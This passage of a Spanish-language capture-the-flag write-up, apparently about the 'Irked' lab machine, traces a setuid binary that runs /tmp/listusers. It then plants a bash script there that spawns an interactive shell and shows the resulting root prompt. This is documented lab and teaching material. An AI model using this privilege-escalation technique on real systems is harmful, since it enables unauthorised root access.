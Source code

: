 ```text
brk(0x57f35000)                         = 0x57f35000
brk(0x57f36000)                         = 0x57f36000
write(1, "This application is being devleo"..., 69This application is being devleoped to set and test user permissions
) = 69
write(1, "It is still being actively devel"..., 37It is still being actively developed
) = 37
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffdd644c) = 7945
waitpid(7945, xbytemx  tty7         2019-04-03 17:35 (:0)
[{WIFEXITED(s) && WEXITSTATUS(s) == 0}], 0) = 7945
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=7945, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
setuid32(0)                             = -1 EPERM (Operación no permitida)
rt_sigaction(SIGINT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=0}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
clone(child_stack=NULL, flags=CLONE_PARENT_SETTID|SIGCHLD, parent_tidptr=0xffdd644c) = 7947
waitpid(7947, sh: 1: /tmp/listusers: not found
[{WIFEXITED(s) && WEXITSTATUS(s) == 127}], 0) = 7947
rt_sigaction(SIGINT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigaction(SIGQUIT, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, NULL, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=7947, si_uid=1000, si_status=127, si_utime=0, si_stime=0} ---
exit_group(0)                           = ?
+++ exited with 0 +++
```

Observamos que después de intentar el setuid a 0, a lo cual no tiene permisos en mi máquina, trata de ejecutar el archivo "/tmp/listusers" sin éxito por lo que termina el programa.

Ahora que tenemos una idea de lo que trata el binario, podemos preparar el archivo listusers con un pequeño script en bash que nos mantenga una sesión interactiva:

```text
djmardov@irked:/dev/shm$ printf '#!/bin/bash\nbash -i\n' > /tmp/listusers
djmardov@irked:/dev/shm$ chmod +x /tmp/listusers
djmardov@irked:/dev/shm$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-03 19:24 (:0)
djmardov pts/0        2019-04-03 20:24 (10.10.15.118)
djmardov pts/3        2019-04-03 19:58 (10.10.14.197)
djmardov pts/5        2019-04-03 19:25 (10.10.13.246)
djmardov pts/6        2019-04-03 19:25 (10.10.15.167)
djmardov pts/11       2019-04-03 19:29 (10.10.14.93)
djmardov pts/16       2019-04-03 19:36 (10.10.15.118)
djmardov pts/17       2019-04-03 20:04 (10.10.15.118)
djmardov pts/24       2019-04-03 20:05 (10.10.14.141)
djmardov pts/25       2019-04-03 20:29 (10.10.15.7)
root@irked:/dev/shm#
```
